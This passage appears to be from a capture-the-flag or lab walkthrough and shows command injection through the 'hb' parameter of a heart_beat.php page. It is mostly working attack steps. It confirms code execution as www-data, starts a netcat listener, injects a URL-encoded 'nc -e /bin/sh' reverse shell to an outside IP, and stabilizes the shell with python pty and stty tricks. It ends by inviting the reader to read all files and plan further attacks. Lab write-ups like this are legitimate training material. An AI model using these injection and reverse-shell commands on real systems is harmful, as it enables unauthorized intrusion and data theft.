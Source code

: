 
Testing the RCE.

```
http://monitoring.site/heart_beat.php?hb=id

event: heart_beat
data: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Open other terminal and start netcat.

```
nc -nvlp 1234
```

Now run this command below to open a shell.

```
nc -e /bin/sh 10.100.13.200 1234
```

```
http://monitoring.site/heart_beat.php?hb=nc%20-e%20/bin/sh%2010.100.13.200%201234
```

Stabilize the session
```
python3 -c "import pty;pty.spawn('/bin/bash')"; export TERM=xterm
CTRL+z
stty raw -echo; fg
```

Now you can read all files and analyse how to attack them.